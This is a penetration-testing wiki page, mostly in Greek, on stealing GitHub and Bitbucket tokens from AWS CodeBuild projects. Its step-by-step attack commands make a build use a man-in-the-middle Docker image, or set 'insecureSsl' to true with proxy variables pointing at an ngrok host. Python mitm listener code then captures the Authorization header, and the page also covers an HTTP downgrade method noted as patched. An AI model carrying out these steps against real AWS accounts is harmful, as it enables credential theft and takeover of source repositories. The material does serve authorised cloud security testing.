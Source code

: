 # AWS Codebuild - Token Leakage

{{#include ../../../../banners/hacktricks-training.md}}

## Ανάκτηση Ρυθμισμένων Tokens από Github/Bitbucket

Πρώτα, ελέγξτε αν υπάρχουν οποιαδήποτε διαπιστευτήρια πηγής ρυθμισμένα που θα μπορούσατε να διαρρεύσετε:
```bash
aws codebuild list-source-credentials
```
### Via Docker Image

Αν διαπιστώσετε ότι η αυθεντικοποίηση για παράδειγμα στο Github είναι ρυθμισμένη στον λογαριασμό, μπορείτε να **exfiltrate** αυτήν την **access** (**GH token ή OAuth token**) κάνοντάς το Codebuild να **χρησιμοποιήσει μια συγκεκριμένη εικόνα docker** για να εκτελέσει την κατασκευή του έργου.

Για αυτόν τον σκοπό μπορείτε να **δημιουργήσετε ένα νέο έργο Codebuild** ή να αλλάξετε το **περιβάλλον** ενός υπάρχοντος για να ρυθμίσετε την **εικόνα Docker**.

Η εικόνα Docker που μπορείτε να χρησιμοποιήσετε είναι [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Αυτή είναι μια πολύ βασική εικόνα Docker που θα ρυθμίσει τις **env μεταβλητές `https_proxy`**, **`http_proxy`** και **`SSL_CERT_FILE`**. Αυτό θα σας επιτρέψει να παγιδεύσετε το μεγαλύτερο μέρος της κίνησης του host που υποδεικνύεται στο **`https_proxy`** και **`http_proxy`** και να εμπιστευτείτε το SSL CERT που υποδεικνύεται στο **`SSL_CERT_FILE`**.

1. **Create & Upload your own Docker MitM image**
- Ακολουθήστε τις οδηγίες του repo για να ρυθμίσετε τη διεύθυνση IP του proxy σας και να ρυθμίσετε το SSL cert και **build the docker image**.
- **DO NOT SET `http_proxy`** για να μην παγιδεύσετε αιτήματα προς το metadata endpoint.
- Μπορείτε να χρησιμοποιήσετε **`ngrok`** όπως `ngrok tcp 4444` για να ρυθμίσετε το proxy στον host σας.
- Μόλις έχετε κατασκευάσει την εικόνα Docker, **upload it to a public repo** (Dockerhub, ECR...)
2. **Set the environment**
- Δημιουργήστε ένα **νέο έργο Codebuild** ή **τροποποιήστε** το περιβάλλον ενός υπάρχοντος.
- Ρυθμίστε το έργο να χρησιμοποιεί την **προηγουμένως παραγόμενη εικόνα Docker**.

<figure><img src="../../../../images/image (23).png" alt=""><figcaption></figcaption></figure>

3. **Set the MitM proxy in your host**

- Όπως υποδεικνύεται στο **Github repo**, μπορείτε να χρησιμοποιήσετε κάτι σαν:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
> [!TIP]
> Η **έκδοση mitmproxy που χρησιμοποιήθηκε ήταν 9.0.1**, αναφέρθηκε ότι με την έκδοση 10 αυτό μπορεί να μην λειτουργήσει.

4. **Εκτελέστε την κατασκευή & καταγράψτε τα διαπιστευτήρια**

- Μπορείτε να δείτε το token στην κεφαλίδα **Authorization**:

<figure><img src="../../../../images/image (273).png" alt=""><figcaption></figcaption></figure>

Αυτό θα μπορούσε επίσης να γίνει από το aws cli με κάτι σαν
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
### Via insecureSSL

**Codebuild** projects have a setting called **`insecureSsl`** that is hidden in the web you can only change it from the API.\
Enabling this, allows to Codebuild to connect to the repository **χωρίς να ελέγχει το πιστοποιητικό** offered by the platform.

- First you need to enumerate the current configuration with something like:
```bash
aws codebuild batch-get-projects --name <proj-name>
```
- Στη συνέχεια, με τις συγκεντρωμένες πληροφορίες μπορείτε να ενημερώσετε τις ρυθμίσεις του έργου **`insecureSsl`** σε **`True`**. Ακολουθεί ένα παράδειγμα της ενημέρωσής μου για ένα έργο, παρατηρήστε το **`insecureSsl=True`** στο τέλος (αυτό είναι το μόνο που χρειάζεται να αλλάξετε από τη συγκεντρωμένη διαμόρφωση).
- Επιπλέον, προσθέστε επίσης τις μεταβλητές env **http_proxy** και **https_proxy** που δείχνουν στο tcp ngrok σας όπως:
```bash
aws codebuild update-project --name <proj-name> \
--source '{
"type": "GITHUB",
"location": "https://github.com/carlospolop/404checker",
"gitCloneDepth": 1,
"gitSubmodulesConfig": {
"fetchSubmodules": false
},
"buildspec": "version: 0.2\n\nphases:\n  build:\n    commands:\n       - echo \"sad\"\n",
"auth": {
"type": "CODECONNECTIONS",
"resource": "arn:aws:codeconnections:eu-west-1:947247140022:connection/46cf78ac-7f60-4d7d-bf86-5011cfd3f4be"
},
"reportBuildStatus": false,
"insecureSsl": true
}' \
--environment '{
"type": "LINUX_CONTAINER",
"image": "aws/codebuild/standard:5.0",
"computeType": "BUILD_GENERAL1_SMALL",
"environmentVariables": [
{
"name": "http_proxy",
"value": "http://2.tcp.eu.ngrok.io:15027"
},
{
"name": "https_proxy",
"value": "http://2.tcp.eu.ngrok.io:15027"
}
]
}'
```
- Στη συνέχεια, εκτελέστε το βασικό παράδειγμα από [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) στην πόρτα που υποδεικνύεται από τις μεταβλητές proxy (http_proxy και https_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
- Τέλος, κάντε κλικ στο **Build the project**, τα **credentials** θα σταλούν σε **καθαρό κείμενο** (base64) στην θύρα mitm:

<figure><img src="../../../../images/image (1) (1).png" alt=""><figcaption></figcaption></figure>

### ~~Μέσω πρωτοκόλλου HTTP~~

> [!TIP] > **Αυτή η ευπάθεια διορθώθηκε από την AWS κάποια στιγμή την εβδομάδα της 20ης Φεβρουαρίου 2023 (νομίζω την Παρασκευή). Έτσι, ένας επιτιθέμενος δεν μπορεί να την εκμεταλλευτεί πια :)**

Ένας επιτιθέμενος με **υψηλά δικαιώματα σε έναν CodeBuild θα μπορούσε να διαρρεύσει το token Github/Bitbucket** που έχει ρυθμιστεί ή αν τα δικαιώματα έχουν ρυθμιστεί μέσω OAuth, το ** προσωρινό OAuth token που χρησιμοποιείται για την πρόσβαση στον κώδικα**.

- Ένας επιτιθέμενος θα μπορούσε να προσθέσει τις μεταβλητές περιβάλλοντος **http_proxy** και **https_proxy** στο έργο CodeBuild που να δείχνουν στη μηχανή του (για παράδειγμα `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../images/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../images/image (213).png" alt=""><figcaption></figcaption></figure>

- Στη συνέχεια, αλλάξτε τη διεύθυνση URL του αποθετηρίου github για να χρησιμοποιεί HTTP αντί για HTTPS, για παράδειγμα: `http://github.com/carlospolop-forks/TestActions`
- Στη συνέχεια, εκτελέστε το βασικό παράδειγμα από [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) στην θύρα που υποδεικνύεται από τις μεταβλητές proxy (http_proxy και https_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="0.0.0.0",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
- Στη συνέχεια, κάντε κλικ στο **Build the project** ή ξεκινήστε την κατασκευή από τη γραμμή εντολών:
```sh
aws codebuild start-build --project-name <proj-name>
```
- Τέλος, τα **credentials** θα σταλούν σε καθαρό κείμενο (base64) στη θύρα mitm:

<figure><img src="../../../../images/image (159).png" alt=""><figcaption></figcaption></figure>

> [!WARNING]
> Τώρα ένας επιτιθέμενος θα μπορεί να χρησιμοποιήσει το token από τη μηχανή του, να καταγράψει όλα τα δικαιώματα που έχει και να (κατα)χρησιμοποιήσει πιο εύκολα από το να χρησιμοποιήσει απευθείας την υπηρεσία CodeBuild.

{{#include ../../../../banners/hacktricks-training.md}}
